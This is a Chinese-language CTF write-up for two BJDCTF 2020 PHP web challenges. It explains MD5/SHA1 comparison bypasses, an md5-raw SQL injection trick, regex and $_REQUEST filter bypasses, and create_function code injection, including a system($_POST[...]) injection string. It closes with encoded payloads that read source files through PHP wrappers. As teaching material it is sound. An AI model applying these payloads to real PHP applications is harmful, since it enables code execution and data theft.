





# BJDCTF 2020

## Easy MD5

> *2021/07/06*

### 题目

进去就是个输入框，别的啥也没有，输入一下试试，在返回包中抓到提示字段`Hint: select * from 'admin' where password=md5($pass,true)`，这说明我们的后台是把我们的输入转换为`md5`，进行比较，这里我们采用一个特殊值`ffifdyop`，这个数进行`md5`之后的值为`276F722736C95D99E921722CF9ED621C`，而MySQL会把`Hex`编码，转为`Ascii`进行使用，而这段代码的`Hex`解码为`'or'6�]��!r,��b`，与前面构成了一个永真式，进行绕过，进入下一部分，阅读源码

```php
<?php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
// wow, glzjin wants a girl friend.
```

这里是一个**md5弱等于**的问题，**弱等于**会把以`0e`开头作为`0`处理，所以我们只要找出两个`md5`值为`0e`开头的字符串即可，进入下一部分

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
```

这次换为了**强等于**，有两种思路，得到结果

- 找出真正相等的字符串，**md5不安全性**
- 数组绕过

### payload

```
/?password=ffifdyop
/?a=s878926199a&b=s155964671a
/?param1[]=1&param2[]=2
```

## EzPHP

> *2021/08/04*

### 题目

进去是一个啥也没有的页面



翻一下，页面代码发现`Here is the real page, GFXEIM3YFZYGQ4A=`，感觉像是某种编码，试一下，发现是`base32`，`1nD3x.php`，访问这个页面，发现源代码

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} 
?>
```

这个源代码蕴含了很多考点，一一分析

*****

#### `$_SERVER['QUERY_STRING']`的绕过

```php
//http://localhost/aaa/ (打开aaa中的index.php)
$_SERVER['QUERY_STRING'] = "";
$_SERVER['REQUEST_URI'] = "/aaa/";
$_SERVER['SCRIPT_NAME'] = "/aaa/index.php";
$_SERVER['PHP_SELF'] = "/aaa/index.php";

//http://localhost/aaa/?p=222 (附带查询)
$_SERVER['QUERY_STRING'] = "p=222";
$_SERVER['REQUEST_URI'] = "/aaa/?p=222";
$_SERVER['SCRIPT_NAME'] = "/aaa/index.php";
$_SERVER['PHP_SELF'] = "/aaa/index.php";

// http://localhost/aaa/index.php?p=222&q=333
$_SERVER['QUERY_STRING'] = "p=222&q=333";
$_SERVER['REQUEST_URI'] = "/aaa/index.php?p=222&q=333";
$_SERVER['SCRIPT_NAME'] = "/aaa/index.php";
$_SERVER['PHP_SELF'] = "/aaa/index.php";
```

由实例可知：
`$_SERVER["QUERY_STRING"]`获取查询 语句，实例中可知，获取的是?后面的值
`$_SERVER["REQUEST_URI"]` 获取 http://localhost 后面的值，包括/
`$_SERVER["SCRIPT_NAME"]` 获取当前脚本的路径，如：index.php
`$_SERVER["PHP_SELF"]` 当前正在执行脚本的文件名

由于`$_SERVER["QUERY_STRING"]`不会进行 **URLDecode** ，而`$_GET[]`会，所以进行URL编码就能绕过

#### 绕过`/^aqua_is_cute$/`的正则匹配

代码如下

```php
if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
} 
```

`debu`参数要匹配 `aqua_is_cute`，但是又不能匹配`aqua_is_cute`，对于这种匹配可以采用`%0a`换行绕过

#### `$_REQUEST`绕过

代码如下

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

循环遍历`$_REQUEST`数组，检测其键值中是否含有字母，根据代码可以知道，我们肯定要 **GET** 一些参数，我们需要提供给`$_REQUEST`一些更高优先级的参数进行绕过

`$_REQUEST`同时检测五个超全局数组，分别为`$_GET`，`$_POST`，`$_COOKIE`，`$_ENV`，`$_SERVER`，这五个超全局数组的优先级是由`php.ini`配置的，一般情况下，`$_POST`要比`$_GET`的优先级要高

> *BUUOJ 平台会自动带上平台的cookie，这道题要注意*

这样我们只要对于 **GET** 提交的参数再 **POST** 一个相同名称的参数上去，值为数字，就能绕过检测

> 输出的 `$value` 为 Array，并没有被正则表达式匹配。这是因为 `preg_match()` 只能匹配字符串，数组得以绕过

#### 文件读取绕过

这个老考点了，一般是下面几种

- `php伪协议`
- `data伪协议`
- `input伪协议`
- `http/https`远程读取vps

这里就用`data`伪协议

#### `sha1`的绕过

代码如下

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
}
```

要求两个`sha1`值强相等，并且两个值不相等。这个和`md5`函数一样，采用数组绕过，由于`sha1`在处理数组时会报`warning`并且返回一个`Flase`，这样就可以绕过

******

这样我们可以形成第一部分代码，输入，可以发现我们走到最后一步



分析一下最后一部分代码

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
```

这里的`code`和`arg`均为空，不过没关系，我们在上一步`sha1`的绕过中有一个`extract()`函数，因为 `extract()` 函数使用数组键名作为变量名，使用数组键值作为变量值，针对数组中的每个元素，将在当前符号表中创建对应的一个变量。因此只要 `extract()` 内的数组键名为 `arg` 和 `code`，键值为我们构造的用来注入的代码，即可实现 `$arg` 和 `$code` 的变量覆盖，导致代码注入

这里有一个新的考点


******

#### `create_function`函数导致的代码注入

> *本函数已经于8.0+版本被删除*

`create_function`函数有两个参数`$args`，`$code`，用于创建一个`lambda`样式的函数

```php
create_function( string $args, string $code):string
```

举个例子

```php
<?php
$myFunc = create_function('$a, $b', 'return($a+$b)');
// 等价
function myFunc($a, $b){
	return $a+$b;
}
```

如果我能控制`code`参数，就可以这样

```php
<?php
$myFunc = create_function('$a, $b', 'return($a+$b);}system($_POST["bme"]);//');
// 等价
function myFunc($a, $b){
	return $a+$b;
}
eval($_POST["bme"]);//}
```

通过手工闭合`}` 使后面的代码 `eval()` 逃逸出了 `myFunc()` 得以执行，然后利用注释符 `//` 注释掉`}` 保证了语法正确

******

回到这道题，我们就可以按照上面的方法，进行代码的注入，可是原题中过滤了很多参数

- 不能通过 `system()` 等函数执行系统命令，就无法 `cat flag.php`
- 过滤了 `flag` 等关键字，不能操作 `$flag` 变量
- 过滤了 `print` 等关键字，不能直接读取或类似无参数 RCE 的方法 `flag.php` 源代码`

php中`get_defined_vars()` 用来输出所有变量和值，测试一下，直接`var_dump`一下



可以发现，`flag`并不在这里，而在另外一个文件里，我们需要读取这个文件，但是`include`已经被ban了，我们需要找到一个替代函数，`require()`，下面就是如何引入这个文件

#### 解法一（预期解）取反操作

`~`在php里代表取反，而我们常规的一些字符已经被ban了，我们可以利用取反来得到对应的URL编码

```php
<?php
$a = "r e a 1 f l 4 g . p h p";
//$a = "p h p : / / f i l t e r / r e a d = c o n v e r t . b a s e 6 4 - e n c o d e / r e s o u r c e = r e a 1 f l 4 g . p h p";
$arr1 = explode(' ', $a);
echo "~(";
foreach ($arr1 as $key => $value) {
    echo "%" . bin2hex(~$value);
}
echo ")";
```

将上面结果直接引入的话，如下



可以发现，我们读取到的并不是全部代码，而是其中显示的部分，还是要读取完整代码，直接上`php伪协议`

读取源码

```php
<html>
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
<title>Real_Flag In Here!!!</title>
</head>
</html>
<?php
	echo "咦，你居然找到我了？！不过看到这句话也不代表你就能拿到flag哦！";
	$f4ke_flag = "BJD{1am_a_fake_f41111g23333}";
	$rea1_f1114g = "flag{c90c24cc-5fc7-4ca3-ac3f-39dbe7d3df3c}";
	unset($rea1_f1114g);
```

#### 解法二（非预期解）数组变换

前面我们知道，`get_defined_vars`，或获取所有变量，那我们可以再GET一个新变量，然后进行读取

根据之前的信息，我们可以知道我们的大部分输入都在第一部分，而参数按照我们输入的顺序排列，`pos()`可以返回当前元素的值，而我们当前是第一个，`end()`函数则可以返回最后一个元素，这样的话，我们新输入一个参数，嵌套两个函数，就可以得到想要的结果，不过新参数同样需要伪协议读取



#### 解法3（非预期解） fgets读取文件

没 ban 掉 `fopen()`，可以 `fgets()` 读取文件，但是这个文件指针需要移动就不能读取完整文件，`$` 被禁无法定义变量，但是`define()`可以用来定义变量

```php
define(aaa,fopen(~(%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f),r))；while(!feof(aaa))var_dump(fgets(aaa));
fclose(aaa);
```

### payload

```
// GET
debu=aqua_is_cute%0a
file=data://text/plain,debu_debu_aqua
shana[]=1
passwd[]=2
flag[code]=create_function
flag[arg]=;}

//POST
debu=1
file=2

require(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f));//

require(end(pos(get_defined_vars())));//

define(aaa,fopen(~(%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f),r))；while(!feof(aaa))var_dump(fgets(aaa));fclose(aaa);//
```

